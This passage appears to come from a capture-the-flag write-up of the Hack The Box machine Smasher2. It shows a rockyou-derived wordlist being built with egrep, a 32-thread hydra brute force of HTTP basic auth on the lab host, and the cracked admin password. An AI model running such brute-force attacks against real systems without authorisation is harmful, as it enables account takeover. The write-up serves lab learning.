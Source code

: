 ```
```

Unfortunately not of them worked. By that time, a lot of people in the Mattermost HTB chat were stuck in the same place and the box creator dropped a hint that we had to use **the full rockyou.txt** wordlist and start at the letter c. He also mentioned that the username was `admin`. I don't know how this part of the box got past the HTB testers since heavy bruteforcing is normally not allowed (I think the box later got patched and that basic auth part was removed). To put this into perspective, even when knowing the username and the start letter, we're looking at potentially ~640k passwords in rockyou.txt:

```
# egrep "^c.*" /usr/share/wordlists/rockyou.txt > wordlist.txt
root@ragingunicorn:~/htb/smasher2# wc -l wordlist.txt 
639676 wordlist.txt
```

In my opinion, this is way over the top since the full rockyou list has 14M+ entries and it's not possible to brute force an HTTP basic auth in a reasonable amount of time when we don't even know the username. Anyways, it still took me ~40 minutes to find the password when running 32 threads in hydra:

```
# hydra -l admin -P wordlist.txt 10.10.10.135 -t 32 http-get /backup
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-05 00:24:55
[DATA] max 32 tasks per 1 server, overall 32 tasks, 639677 login tries (l:1/p:639677), ~19990 tries per task
[DATA] attacking http-get://10.10.10.135:80/backup
[STATUS] 7725.00 tries/min, 7725 tries in 00:01h, 631952 to do in 01:22h, 32 active
[STATUS] 7830.67 tries/min, 23492 tries in 00:03h, 616185 to do in 01:19h, 32 active
[STATUS] 7795.57 tries/min, 54569 tries in 00:07h, 585108 to do in 01:16h, 32 active
[STATUS] 7838.53 tries/min, 117578 tries in 00:15h, 522099 to do in 01:07h, 32 active
[STATUS] 7856.03 tries/min, 243537 tries in 00:31h, 396140 to do in 00:51h, 32 active
[80][http-get] host: 10.10.10.135   login: admin   password: clarabibi
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-05 01:05:21
```

Password: `clarabibi`

I checked if that password was present in any other wordlist from SecLists, including the reduced rockyou list but I didn't find it there. It's only in the full rockyou list:

```
# grep -ri clarabibi /usr/share/seclists/
root@ragingunicorn:~# grep -ri clarabibi /usr/share/wordlists/rockyou.txt 
clarabibi
```

Ok, rant over.

Once I had the password, I checked out the `/backup` and found the source code for the authentication page on `wonderfulsessionmanager.smasher2.htb`
